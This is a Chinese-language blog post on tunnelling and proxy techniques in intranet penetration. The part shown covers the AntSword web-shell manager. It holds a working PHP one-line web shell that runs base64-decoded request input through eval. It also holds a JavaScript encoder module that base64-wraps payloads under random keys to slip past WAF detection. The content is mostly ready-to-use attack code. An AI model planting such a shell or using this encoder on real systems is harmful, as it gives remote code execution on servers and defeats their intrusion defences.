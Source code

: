 ```yaml
---
layout:     post
title:      内网渗透 常用的隧道代理技术
subtitle:   简单整理一下工具的使用
date:       2020-10-21
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/background/简单记录几个知识点.jpg
catalog: true
---
```


## 1.蚁剑 自定义加密传输 绕过waf检测

### base64 加密传输

```php
<?php
@eval(base64_decode($_REQUEST['diego']));
?>
```



```javascript
/**
 * php::base64编码器
 * Create at: 2020/10/23 12:02:12
 */

'use strict';

/*
* @param  {String} pwd   连接密码
* @param  {Array}  data  编码器处理前的 payload 数组
* @return {Array}  data  编码器处理后的 payload 数组
*/
module.exports = (pwd, data, ext={}) => {
  // ##########    请在下方编写你自己的代码   ###################
  // 以下代码为 PHP Base64 样例

  // 生成一个随机变量名
  let randomID = `_0x${Math.random().toString(16).substr(2)}`;
  // 原有的 payload 在 data['_']中
  // 取出来之后，转为 base64 编码并放入 randomID key 下
  data[randomID] = Buffer.from(data['_']).toString('base64');

  // shell 在接收到 payload 后，先处理 pwd 参数下的内容，
  data[pwd] = `eval(base64_decode($_POST[${randomID}]));`;
  data[pwd] = Buffer.from(data[pwd]).toString('base64');

  // ##########    请在上方编写你自己的代码   ###################

  // 删除 _ 原有的payload
  delete data['_'];
  // 返回编码器处理后的 payload 数组
  return data;
}
```
